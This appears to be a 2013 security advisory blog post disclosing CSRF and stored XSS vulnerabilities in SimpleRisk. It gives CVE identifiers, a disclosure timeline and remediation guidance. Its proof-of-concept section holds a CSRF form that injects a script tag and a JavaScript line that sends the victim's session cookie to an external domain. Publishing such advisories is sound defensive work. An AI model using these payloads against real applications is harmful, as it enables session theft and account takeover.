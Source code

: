 ```yaml
---
layout: post
status: publish
published: true
title: SimpleRisk v.20130915-01 CSRF-XSS Account Compromise
author:
  display_name: ethicalhack3r
  login: ethicalhack3r
  email: ryandewhurst@gmail.com
  url: ''
author_login: ethicalhack3r
author_email: ryandewhurst@gmail.com
excerpt: "1. *Advisory Information*\r\n\r\nTitle: SimpleRisk v.20130915-01 CSRF-XSS
  Account Compromise\r\nAdvisory ID: RS-2013-0001\r\nDate Published: 2013-09-30\r\n\r\n2.
  *Vulnerability Information*\r\n\r\nType: Cross-Site Request Forgery (CSRF) [CWE-352,
  OWASP-A8], Cross-Site Scripting (XSS) [CWE-79, OWASP-A3]\r\nImpact: Full Account
  Compromise\r\nRemotely Exploitable: Yes\r\nLocally Exploitable: Yes\r\nSeverity:
  High\r\nCVE-ID: CVE-2013-5748 (CSRF) and CVE-2013-5749 (non-httponly cookie)\r\n\r\n3.
  *Software Description*\r\n\r\nSimpleRisk a simple and free tool to perform risk
  management activities. Based entirely on open source technologies and sporting a
  Mozilla Public License 2.0, a SimpleRisk instance can be stood up in minutes and
  instantly provides the security professional with the ability to submit risks, plan
  mitigations, facilitate management reviews, prioritize for project planning, and
  track regular reviews. It is highly configurable and includes dynamic reporting
  and the ability to tweak risk formulas on the fly. It is under active development
  with new features being added all the time. SimpleRisk is truly Enterprise Risk
  Management simplified. [0]\r\n\r\nHomepage: <a href=\"http://www.simplerisk.org/\">http://www.simplerisk.org/</a>\r\nDownload:
  <a href=\"https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz\">https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz</a>\r\n\r\n"
wordpress_id: 17200
wordpress_url: http://www.ethicalhack3r.co.uk/?p=17200
date: '2013-09-30 22:15:12 +0100'
date_gmt: '2013-09-30 21:15:12 +0100'
---
```

<p>1. *Advisory Information*</p>
<p>Title: SimpleRisk v.20130915-01 CSRF-XSS Account Compromise<br />
Advisory ID: RS-2013-0001<br />
Date Published: 2013-09-30</p>
<p>2. *Vulnerability Information*</p>
<p>Type: Cross-Site Request Forgery (CSRF) [CWE-352, OWASP-A8], Cross-Site Scripting (XSS) [CWE-79, OWASP-A3]<br />
Impact: Full Account Compromise<br />
Remotely Exploitable: Yes<br />
Locally Exploitable: Yes<br />
Severity: High<br />
CVE-ID: CVE-2013-5748 (CSRF) and CVE-2013-5749 (non-httponly cookie)</p>
<p>3. *Software Description*</p>
<p>SimpleRisk a simple and free tool to perform risk management activities. Based entirely on open source technologies and sporting a Mozilla Public License 2.0, a SimpleRisk instance can be stood up in minutes and instantly provides the security professional with the ability to submit risks, plan mitigations, facilitate management reviews, prioritize for project planning, and track regular reviews. It is highly configurable and includes dynamic reporting and the ability to tweak risk formulas on the fly. It is under active development with new features being added all the time. SimpleRisk is truly Enterprise Risk Management simplified. [0]</p>
<p>Homepage: <a href="http://www.simplerisk.org/">http://www.simplerisk.org/</a><br />
Download: <a href="https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz">https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz</a></p>
<p><a id="more"></a><a id="more-17200"></a></p>
<p>4. *Vulnerability Description*</p>
<p>Cross-Site Request Forgery (CSRF) and Stored Cross-Site Scripting (XSS) have been discovered within SimpleRisk version 20130915-01 leading to complete account compromise. The CSRF vulnerability is used to deliver the XSS payload which accesses the authenticated user's session cookies and transmits them to a third-party domain under the attacker's control. Once the attacker has the user's session cookie, the attacker can authenticate to the application as the user.</p>
<p>5. *Vulnerable Packages*</p>
<p>Only version 20130915-01 was tested which was the latest version at the time of writing.</p>
<p>6. *Vendor Information, Solutions and Workarounds*</p>
<p>SimpleRisk released version 20130916-001 to address the issue.</p>
<p>7. *Credits*</p>
<p>These vulnerabilities were discovered by Ryan Dewhurst - <a href="http://www.randomstorm.com/">http://www.randomstorm.com/</a> - <a href="http://www.dewhurstsecurity.com/">http://www.dewhurstsecurity.com/</a></p>
<p>8. *Proof of Concept (PoC)*</p>
<p>8.1 *Cross-Site Request Forgery (CSRF)*</p>
<p>The following CSRF PoC submits a POST request to the prioritize_planning.php page with the XSS payload within the new_project parameter.</p>
<p>[code]<br />
&lt;html&gt;<br />
  &lt;body&gt;<br />
    &lt;form action=&quot;http://127.0.0.1/simplerisk/management/prioritize_planning.php&quot; method=&quot;POST&quot;&gt;<br />
      &lt;input type=&quot;hidden&quot; name=&quot;new&amp;#95;project&quot; value=&quot;&amp;lt;script&amp;#32;src&amp;#61;&amp;#47;&amp;#47;ethicalhack3r&amp;#46;co&amp;#46;uk&amp;#47;files&amp;#47;xss&amp;#47;c&amp;#46;j&amp;gt;&amp;lt;&amp;#47;script&amp;gt;&quot; /&gt;<br />
      &lt;input type=&quot;hidden&quot; name=&quot;add&amp;#95;project&quot; value=&quot;Add&quot; /&gt;<br />
      &lt;input type=&quot;hidden&quot; name=&quot;projects&quot; value=&quot;&quot; /&gt;<br />
      &lt;input type=&quot;submit&quot; value=&quot;Submit request&quot; /&gt;<br />
    &lt;/form&gt;<br />
  &lt;/body&gt;<br />
&lt;/html&gt;<br />
[/code]</p>
<p>8.2 *Stored Cross-Site Scripting (XSS)*</p>
<p>The prioritize_planning.php page accepts user supplied input via the new_project POST parameter and then later outputs that data to the page without first being sanitised or encoded. The following code was used to inject JavaScript into the application's back-end database.</p>
<p>Payload: &lt;script src=//ethicalhack3r.co.uk/files/xss/c.j&gt;&lt;/script&gt;<br />
Method: POST<br />
Parameter: new_project</p>
<p>The c.j JavaScript file contained the following code which sends the user's authenticated session cookie to a third-party domain:</p>
<p>document.write('&lt;img src=//ethicalhack3r.co.uk/srx=' + document.cookie + '&gt;');</p>
<p>9. *Remediation*</p>
<p>9.1 *Cross-Site Request Forgery (CSRF)*</p>
<p>Set per page anti-csrf tokens (nonces) which are submitted with requests and then validated by the server. Please refer to OWASP's CSRF Prevention Cheat Sheet for further information. [1]</p>
<p>9.2 *Cross-Site Scripting (XSS)*</p>
<p>Properly sanitise and encode user supplied input and output. Please refer to OWASP's XSS Prevention Cheat Sheet for further information. [2]</p>
<p>9.3 *Other Recommendations*</p>
<p>. Add the httponly flag to the session cookie so that JavaScript's document.cookie can not access it. [3]<br />
. Set the Content Security Policy (CSP) header to whitelist where JavaScript is allowed to be loaded from. [4]<br />
. Set the X-XSS-Protection header to ensure the browser's XSS filtering is enabled. (only works for reflected XSS) [5]</p>
<p>10. *Report Timeline*</p>
<p>2013-09-16: SimpleRisk notified of issue.<br />
2013-09-16: SimpleRisk acknoledged issue.<br />
2013-09-16: SimpleRisk release new version.<br />
2013-09-30: Advisory released.</p>
<p>11. *References*</p>
<p>[0] <a href="http://www.simplerisk.org/">http://www.simplerisk.org/</a><br />
[1] <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet">https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet</a><br />
[2] <a href="https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet">https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet</a><br />
[3] <a href="https://www.owasp.org/index.php/HttpOnly">https://www.owasp.org/index.php/HttpOnly</a><br />
[4] <a href="https://www.owasp.org/index.php/Content_Security_Policy">https://www.owasp.org/index.php/Content_Security_Policy</a><br />
[5] <a href="https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet#X-XSS-Protection">https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet#X-XSS-Protection</a><br />
[6] <a href="http://www.randomstorm.com/">http://www.randomstorm.com/</a><br />
[7] <a href="http://www.dewhurstsecurity.com/">http://www.dewhurstsecurity.com/</a></p>
